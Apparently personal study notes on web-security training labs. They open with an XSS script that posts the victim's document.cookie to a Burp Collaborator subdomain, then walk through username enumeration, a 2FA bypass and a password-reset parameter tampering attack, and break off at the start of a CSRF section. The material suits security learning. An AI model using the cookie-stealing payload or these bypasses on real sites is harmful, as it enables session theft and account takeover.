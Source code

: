 Use burpcollborator to steal the admin's cookies via an XSS at post comment section.

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```

## Authentication

Its the action of verifying the identity of a given user. It's making sure they are who they claim to be.

**Authentication is the process of verifying that a user really is who they claim to be, whereas authorization involves verifying whether a user is allowed to do something.**

Username enumeration occurs when there's a way to distinguish a failed login attempt from a login attempt with a correct username. It can be response length, time of response, or simply a message such as "There's no username like that in our database."

### Lab 1

In this LAB, the developer decided to write a message when the username is wrong and when the password doesn't match. With that in mind, we can construct a payload list that iterates over usernames until it finds the "Incorrect password",  and then iterate over the password list until it doesn't say "Incorrect password". Basically, an attacker is able to deduce the account credentials by analyzing the responses given to him.

username: **arcsight**

password: **hunter**

### LAB 2

This 2FA bypass is fairly simple. Merely login as carlos montoya and when promped for the 2fa code, issue a get request to /my-account. Notice you are logged in.

### LAB 3

Issue a password reset link from the account wiener, go to email client, click the link, set a new password and click update with intercept on. Notice a POST is sent with a username, change it to carlos, send the request and login to that account with the new password.

## CSRF

CSRF Request forgery takes place when there is an action to be made and cookie based session handling.

Example (assume cookie based session handling)
